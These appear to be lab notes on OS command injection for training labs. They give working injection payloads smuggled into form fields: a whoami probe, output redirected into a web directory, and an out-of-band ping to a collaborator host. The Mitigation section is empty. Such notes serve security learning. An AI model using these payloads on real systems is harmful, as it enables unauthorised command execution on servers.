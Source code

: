 # OS Command Injection

## LAB 01: ****OS command injection, simple case****

![Untitled](OS%20Command%20Injection%20b1fdd04535d348acb618924d1af42914/Untitled.png)

```bash
productId=2;whoami&storeId=1
```

## LAB 02: ****Blind OS command injection with output redirection****

![Untitled](OS%20Command%20Injection%20b1fdd04535d348acb618924d1af42914/Untitled%201.png)

Difference output send back to the user when modifying the email param…

![Untitled](OS%20Command%20Injection%20b1fdd04535d348acb618924d1af42914/Untitled%202.png)

```bash
mail@gmail.com||id>/var/www/images/test.txt||
```

## LAB 00:

### Overall

![Untitled](OS%20Command%20Injection%20b1fdd04535d348acb618924d1af42914/Untitled%203.png)

In this case, nothing is going to response to the user except the result line when successful submit the form.

So, we need to test each field to find the place where we can inject the code, but in this context, we must use OAST technique.

Refer to:

[OS Command Injection](https://cel1s0.gitbook.io/offsec-notes/portswigger-academy/server-side-topics/os-command-injection#lab-blind-os-command-injection-with-out-of-band-interaction)

### Step to reproduce

So based on the refer above, we 

```jsx
csrf=MXBtEhVEHSS4tjOfv8OG0UnvvoPFE82O&name=name&email=email=a;ping -c 10 [collabID].oastify.com;&subject=subject&message=message
```

Result in the connection in collaborator 

![Untitled](OS%20Command%20Injection%20b1fdd04535d348acb618924d1af42914/Untitled%204.png)

### Mitigation

### Appendix